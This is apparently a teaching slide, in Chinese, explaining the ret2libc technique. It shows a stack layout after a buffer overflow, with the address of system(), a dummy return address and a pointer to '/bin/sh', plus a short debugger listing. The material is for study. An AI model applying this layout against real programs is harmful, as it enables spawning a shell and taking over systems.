

# 补充：Ret2libc原理
攻击准备好后的栈
| buf |
| --- |
| 0xf7e1ed10 |
| 0xdeadbeef |
| 0xffffd93a |
| … |
system()函数地址->
|  |
| --- |
ESP
无用的返回地址->
指向“ /bin/sh”字符串的地址->
0x56555563 <main+70>:	ret

-----------------------------------------------------------------------------------
system
   0xf7e1ed10 <system>:	sub    esp,0xc
   0xf7e1ed13 <system+3>:	mov    eax,DWORD PTR [esp+0x10]
   0xf7e1ed17 <system+7>:	call   0xf7f16c7d
EIP